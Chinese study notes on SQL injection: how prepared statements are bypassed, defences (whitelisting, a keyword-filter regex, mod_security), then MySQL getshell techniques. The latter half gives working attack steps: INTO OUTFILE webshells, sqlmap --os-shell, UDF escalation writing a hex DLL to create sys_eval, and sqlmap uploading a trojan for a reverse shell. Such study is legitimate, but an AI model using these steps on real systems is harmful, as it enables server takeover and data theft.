parameterAsBytes = this.isLoadDataQuery ? StringUtils.getBytes(parameterAsString) : (needsQuoted ? 		 StringUtils.getBytesWrapped(parameterAsString, '\'', '\'', this.charEncoding) : StringUtils.getBytes(parameterAsString, this.charEncoding));

this.setValue(parameterIndex, parameterAsBytes, MysqlType.VARCHAR);
```

最后的数据就变成了` select * from users where username = '\'or 1#'`

会被转义的特殊字符有

```
\u0000
\n
\r
\u001a
"
\
\\
¥
₩
```

#### 绕过预编译：

开发人员因为自身原因或者代码原因并没有使用占位符导致预编译失效。

**开发人员的在写预编译语句的时候，没有使用占位符，而是直接把数据拼接到sql语句当中，然后再经过预编译语句。**

```java
//创建sql语句
String sql = "SELECT * FROM users WHERE username = '" + req.getParameter("username") + "' AND password = '" + req.getParameter("password") + "'";
System.out.println(sql);
//预编译sql语句
PreparedStatement pstt = connection.prepareStatement(sql);
ResultSet resultSet = pstt.executeQuery(sql);//返回结果集，封装了全部的产部的查询结果
```

- 这样即使使用了预编译，但是预编译的语句已经是被攻击者构造好的语句，所以无法防御SQL注入。
- 又或者是前面使用?占位符后，又对语句进行拼接，也会导致SQL注入
- 想要做到阻止sql注入，首先要做到使用?作为占位符，规定好sql语句的结构，然后在后面不破坏结构

- **使用in语句**：其实还是拼接

    ```
    String sql = "delete from users where id in("+delIds+")”;
    ```

    - 此删除语句大多用在复选框内，在in当中使用拼接而不使用占位符做预编译的原因是因为很多时候无法确定deIds里含有多少个对象

    - 输入：`1,2`    正常只会删除id为1和2的值

    - 如果此时输入：`1,2) or 1=1#`

    - 就会形成SQL注入，删除所有值

    - **正确写法：**

        还是要用到预编译，所以我们要对传入的对象进行处理，首先确定对象的个数，然后增加同量的占位符?以便预编译

- **使用like语句**：还是拼接

    - 当用户的输入会输入到like后面。

    - 正确写法

        首先我们要将拼接的地方全部改为?做占位符，但是使用占位符后要使用setString来把传入的参数替换占位符，所以我们要先进行判断，判断需要插入替换多少个占位符

**使用order by语句**：输入的数据要传入到order by后面。

- 通过上面对使用in关键字和like关键字发现，只需要对要传参的位置使用占位符进行预编译时似乎就可以完全防止SQL注入，然而事实并非如此。

- **当使用order by语句时是无法使用预编译的，原因是order by子句后面需要加字段名或者字段位置，而字段名是不能带引号的，否则就会被认为是一个字符串而不是字段名，然而使用PreapareStatement将会强制给参数加上'。**

- **所以，在使用order by语句时就必须得使用拼接的Statement，所以就会造成SQL注**入，所以还要在过滤上做好防御的准备

- order by SQL注入防御：

    - order by可以设置白名单，只有白名单中的字段才可以拼接。

    - ```java
        private String checkSort(String sortBy) {
            List<String> columns = new ArrayList<>(Arrays.asList("id", "username"));
            return (columns.contains(sortBy)) ? sortBy : "''";
        }
        ```


**php下PDO有个模拟预编译，并没有调用数据库的预编译，而是自己对数据进行了转义然后拼接发给数据库处理，所有会存在绕过**：

- HP提供了模拟预处理(默认开启),其本质是转义用户输入,相关函数是:
    PDO::quote和mysqli_real_escape_string.
- 在模拟预处理下,绑定参数(bindParam/bind_param)本质也是转义,而非SQL模板和参数分离.


## 实战中如何找寻sqL注入漏洞

## SQL注入的预防措施

- **预编译：**

- 字符串过滤

  - 使用一些过滤器之类的，过滤到关键词，核心是通过**正则表达式匹配关键字**。

      ```java
      public final static String regex = "'|#|%|;|--| and | and|and | or | or|or | not | not|not " +
                  "| use | use|use | insert | insert|insert | delete | delete|delete | update | update|update " +
                  "| select | select|select | count | count|count | group | group|group | union | union|union " +
                  "| create | create|create | drop | drop|drop | truncate | truncate|truncate | alter | alter|alter " +
                  "| grant | grant|grant | execute | execute|execute | exec | exec|exec | xp_cmdshell | xp_cmdshell|xp_cmdshell " +
                  "| call | call|call | declare | declare|declare | source | source|source | sql | sql|sql ";
      
      public static String safeSqlParse(String originStr){
          return originStr.replaceAll("(?i)" + regex, "");
      }
      ```

      

- 字符的转义
  - 例如输入的单引号，前面加上转义符号。

- 数据库权限
  - sql注入过程中，网站上的使用者通过一些手段拿到了数据库的使用权限，同时甚至可能访问其他数据库。因此需要严格限制数据库的使用权限，只能访问应用的数据库，不能访问系统数据库，例如数据库information_schema中存储了所有数据库的结构信息。

- 数据库数据加密

  - 如果数据库的密码是明文存储的，泄露的风险非常大，所以一般会进行md5加密。但是单纯的对密码进行加密依旧很容易被破解，那么可以在相应的数据后面加上实现约定好的固定的字符串。企业中可能还有加密机等手段。
  - 数据库、表、字段的定义
      - 对数据库、表、字段进行定义的时候，尽量不要取太常规的名字，例如users、username等，容易被字典攻击。

- WAF

    - Web Application Firewall，是web应用防火墙，通过执行一系列针对HTTP/HTTPS的安全策略来专门为web应用提供保护的一款产品，不同于网络防火墙。
      **使用场景**：例如服务器中有些安全性比较差的应用程序，例如旧版的wordpress、discuz、phpwind等，审计和修改全部代码比较麻烦，这时候最好的办法就是通过部署WAF来实现安全防护。
    - WAF可以防护的常见风险包括：SQL注入、XSS、利用本地/远程文件包含漏斗进行攻击、PHP代码注入、黑客扫描网站、源代码/错误信息泄露等。
      **产品种类**：硬件型WAF（厂商安装）、云WAF（比如阿里云/腾讯云/华为云的WAF，购买服务）、软件型WAF（可部署在apache、nginx等HTTP Server中，有很多开源产品）。

- 给出一个开源产品的示例（mod_security）

    * 下载[mod_security](https://www.apachelounge.com/download/),解压文件，复制两个文件：
      * 复制mod_security2.so到apache/modules文件夹下（如果下载了phostudy，apache在phpstudy-》extensions文件夹下）；
      * 复制yajl.dll到apache/bin文件夹下。

    * 修改apache/conf/httpd.conf文件:
      * 取消注释：`LoadModule security2_module modules/mod_security2.so`(如果没有就自己加上，放在相同模块附近)
      * 添加`LoadModule unique_id_module modules/mod_unique_id.so`
      * 添加`Include conf/modsecurity/*.conf`

    * 修改modsecurity配置文件
      * 打开mod_security-2.9.3-win64-VS16\mod_security-2.9.3\mod_security，复制文件modsecurity.conf-recommended，改名为modsecurity.conf
      * 在apache/conf下创建一个文件夹，命名为modsecurity
      * 把modsecurity.conf放到modsecurity文件夹下
      * modsecurity.conf中修改/添加两行配置，开启安全规则引擎。如果触发规则，默认防护措施是返回HTTP 403错误。
        ```
        SecRuleEngine On
        SecDefaultAction "deny,phase:2,status:403"
        ```
      * 修改日志路径，否则apache启动会报错（路径不存在错误）
        ```
        SecAuditLog apache的绝对路径/logs/modsec_audit.log
        ```
      * 因为没有unicode.mapping文件，所以需要注释下面这行：
        ```
        #SecUnicodeMapFile unicode.mapping 20127
        ```

    * 测试。所有配置修改完成之后重启apache，测试是否生效。打开一个GET请求的PHP地址，加上`?abc=../..`。具体在下载的mod_security压缩包中由readme文件可以参考。

- 其他
    - 拔网线、删库等。

## mysql注入获得shell

> https://www.cnblogs.com/LeslieFPS/p/16142372.html

- Webshell提权分两种：一是利用**outfile函数**，另外一种是利用**--os-shell**；UDF提权通过堆叠注入实现；MOF提权通过"条件竞争"实现
- 有sql注入试着––is–dba，如果有有绝对路径就––os–shell，不行扫后台，尝试用管理员账户密码登录

### 通过select into 写入webshell

- 需要对目标目录具有写权限

- 要知道网站的绝对路径:  **可以通过sqlmap读取配置文件获取网站绝对路径,也可构造load_file()读取文件**

    `sqlmap --file-read /etc/httpd/conf/httpd.conf`

- GPC关闭(GPC:是否对单引号转义)

- 没有配置secure-file-priv

    - secure_file_priv的值为null ，表示限制mysqld 不允许导入|导出

        当secure_file_priv的值为/tmp/ ，表示限制mysqld 的导入|导出只能发生在/tmp/目录下

        当secure_file_priv的值没有具体值时，表示不对mysqld 的导入|导出做限制

- 数据库管理员权限

**--os-shell:**

- --os-shell是通过into oufile向服务器写入两个文件，一个可以直接执行系统命令，一个进行上传文件
- **利用条件**

    - 要求为DBA数据库管理员权限（--is-dba：phpstudy搭建的一般为DBA）
    - php主动转义的功能关闭（PHP的GPC关闭），
    - 能使用单双引号（需要单引号路径，不能使用0x编码）
    - 知道网站的绝对路径；文件不能覆盖写入，所以文件必须为不存在。

### **UDF提权：**

- 数据库本身的权限和系统的权限要分开来，有时候webshell权限可能很低，有些操作无法进行，而此时本地恰好存在mysql数据库，那么udf可能就派上用场了，由于windows安装的mysql进程一般都拥有管理员权限，这就意味着用户自定义的函数也拥有管理员权限，我们也就拥有了执行管理员命令的权限，这时新建管理员用户等操作也就轻而易举了，大多数人称为这一操作为udf提权，其实表达不够准确，应该称为通过mysql获得管理员权限。
- 需要数据库账号和密码：
- 

- **UDF (user defined function)**，即用户自定义函数。是通过添加新函数，对MySQL的功能进行扩充，其实就像使用本地MySQL函数如 user() 或 concat() 等。那么，我们该如何使用UDF呢？

- 假设我的UDF文件名为 udf.dll，存放在MySQL安装目录的` lib/plugin `目录下(当MySQL>5.1，该目录默认不存在)。

- udf利用的其中一步，是要将我们的xxx.dll文件上传到mysql检索目录中，mysql各版本的检索目录有所不同：

    |       版本        |                            路径                            |
    | :---------------: | :--------------------------------------------------------: |
    |    MySQL < 5.0    |                       导出路径随意；                       |
    | 5.0 <= MySQL< 5.1 | 需要导出至目标服务器的系统目录（如：c:/windows/system32/） |
    |    5.1 < MySQL    |       必须导出到MySQL安装目录下的lib\plugin文件夹下        |

- **一般Lib、Plugin文件夹需要手工建立（可用NTFS ADS流模式突破进而创建文件夹）**

- 在 udf.dll 文件中，我定义了名为 sys_eval() 的 MySQL 函数，该函数可以执行系统任意命令。但是如果我现在就打开 MySQL 命令行，使用 select sys_eval('whoami')；的话，系统会返回 sys_eval() 函数未定义。因为我们仅仅是把 udf.dll 放到了 lib/plugin 目录下，并没有引入。类似于面向对象编程时引入包一样，如果没有引入包，那么这个包里的类你是用不了的。

- 所以，我们应该把 udf.dll 中的自定义函数引入进来。看一下官方文档中的语法：

    `create function sys_eval returns string soname 'udf.dll';`

- 只有两个变量:

    - 一个是     function_name（函数名），我们想引入的函数是 sys_eval。
    - 还有一个变量是     shared_library_name（共享包名称），即 udf.dll 。

- 至此我们已经引入了 sys_eval 函数，下面就可以使用了。

    这个函数用于执行系统命令，用法如下：

    `select * from mysql.func where name = 'sys_eval'; #查看创建的sys_eval函数`

    `select sys_eval('whoami'); #使用系统命令`

- 当     MySQL< 5.1 版本时，将 .dll 文件导入到 c:\windows 或者 c:\windows\system32 目录下。

- 当     MySQL> 5.1 版本时，将 .dll 文件导入到 MySQL Server 5.xx\lib\plugin 目录下     (lib\plugin目录默认不存在，需自行创建)。

- **将dll上传方式推荐几种**:

    - 通过webshell上传
    - 以hex方式直接上传

- **UDF提权步骤**:

    - **查看 secure_file_priv  的值**,`show global variables like 'secure%'`;我们先查看 secure_file_priv 的值是否为空，因为只有为空我们才能继续下面的提权步骤。

    - **查看系统架构以及plugin目录**

        ```
        show variables like '%compile%'; #查看主机版本及架构
        show variables like 'plugin%'; #查看 plugin 目录
        
        这里是 x64 位的系统，我们可以去kali中 /usr/share/metasploit-framework/data/exploits/mysql/ 目录下载64位的 .dll 文件。(由于我这里MSF更改过，所以路径有所不同)
        ```

    - **将dll文件写入plugin目录,并且创建函数**

        ```sql
        1) create table temp(data longblob);
        2) insert into temp(data) values (0x4d5a90000300000004000000ffff0000b800000000000000400000000000000000000000000000000000000000000000000000000000000000000000f00000000e1fba0e00b409cd21b8014ccd21546869732070726f6772616d2063616e6e6f742062652072756e20696e20444f53206d6f64652e0d0d0a2400000000000000000000000000000);
        3) update temp set data = concat(data,0x33c2ede077a383b377a383b377a383b369f110b375a383b369f100b37da383b369f107b375a383b35065f8b374a383b377a382b35ba383b369f10ab376a383b369f116b375a383b369f111b376a383b369f112b376a383b35269636877a383b300000000000000000000000000000000504500006486060070b1834b00000000);
        4) select data from temp into dumpfile "G:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\udf.dll";
        5) create function sys_eval returns string soname 'udf.dll'; #创建函数sys_eval
        执行select data from temp into dumpfile "G:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\udf.dll"; 时有可能会出现以下错误，因为当MySQL大于5.1时，默认是没有 lib\plugin 目录的。而 into dumpfile在写入文件时也不能创建文件夹，所以也就报错了：Can't create/write to file
        
        
        而在执行 create function sys_eval returns string soname 'udf.dll'; 命令时出现 1126 - Can't open shared library 'udf.dll'的错误。我看网上有的解释是说是因为在MySQL安装目录下默认没有 lib\plugin 目录导致的。但是我不认为是这个错误，因为如果上一步将dll文件写到 lib\plugin 目录没报错的话，说明dll文件已经写到 lib\plugin 目录了，因此也就不存在这个错误。但是目前还没有找到解决版本。
        
        ```

    - 在将 udf.dll 文件写入plugin目录后，我们就可以使用 sys_eval 函数了。

- 如果得到了数据库的用户名和密码，并且可以远程连接的话，可以使用MSF里面的 **exploit/multi/mysql/mysql_udf_payload** 模块自动注入。

    - 使用MSF中的 exploit/multi/mysql/mysql_udf_payload 模块也可以进行UDF提权。MSF会将dll文件写入lib\plugin\目录下(前提是该目录存在，如果该目录不存在的话，则无法执行成功)，dll文件名为任意创建的名字。该dll文件中包含sys_exec()和sys_eval()两个函数，但是默认只创建sys_exec()函数，该函数执行并不会有回显。我们可以手动创建 sys_eval() 函数，来执行有回显的命令。

- **UDF提权后如何反弹shell**

    - 首先使用CS的Powershell反弹命令是不行的，这里由于powershell命令引号过多，不能执行。
    - 我们现在的思路是执行木马文件，反弹shell。这里由于sys_eval函数不能执行windows那些远程下载命令，所以我们选择通过sqlmap的写入文件功能，将木马写入当前目录。
    - `sqlmap -u "http://192.168.10.130/?id=2" --file-write msf.exe --file-dest "C:\phpStudy\PHPTutorial\MySQL\data\hack.exe"`
    - 执行木马反弹。这里需要注意的是，**sys_eval函数只能执行当前目录下的文件，所以，也只能把文件写入当前路径下。**

- **启动项提权：**

    - **传送门——> [MySQL启动项提权**](https://www.cnblogs.com/wh4am1/p/6613759.html)，利用MySQL，将后门写入开机启动项。同时因为是开机自启动，再写入之后，需要重启目标服务器，才可以运行，不常用。从系统普通用户权限——>系统管理员权限。

- mof提权

    - 传送门——>mysql之mof提权详解，只适用于windows系统，一般低版本系统才可以用，比如xp，server2003，比较麻烦，不常用。从系统普通用户权限——>系统管理员权限。


## SQLServer：

1. - **xp_cmdshell提权：**[SA权限开启xp_cmdshell获取主机权限](https://blog.csdn.net/qq_36119192/article/details/88679754#SA权限获取主机权限)，利用SQLServer中的xp_cmdshell组件执行系统命令
    - **sp_oacreate提权：**[SA权限使用sp_oacreate执行系统命令](https://blog.csdn.net/qq_36119192/article/details/88679754#SA使用sp_oacreate执行系统命令)，利用SQLServer中的sp_oacreate组件执行系统命令，该组件执行系统命令时无回显
    - **Log备份提权：**[DB_owner权限LOG备份Getshell](https://blog.csdn.net/qq_36119192/article/details/88679754#DB_owner权限LOG备份Getshell)
    - **差异备份提权：**[DB_owner权限差异备份Getshell](https://blog.csdn.net/qq_36119192/article/details/88679754#DB_owner权限差异备份Getshell)


##  **Oracle数据库提权，执行系统命令。**

1. - **将低权限账户提权至高权限账户，然后通过一些操作执行系统命令。**
    - **select      \* from v$session****可以查看连接数据库的用户名，主机名，借此可以进行下一步的渗透。**


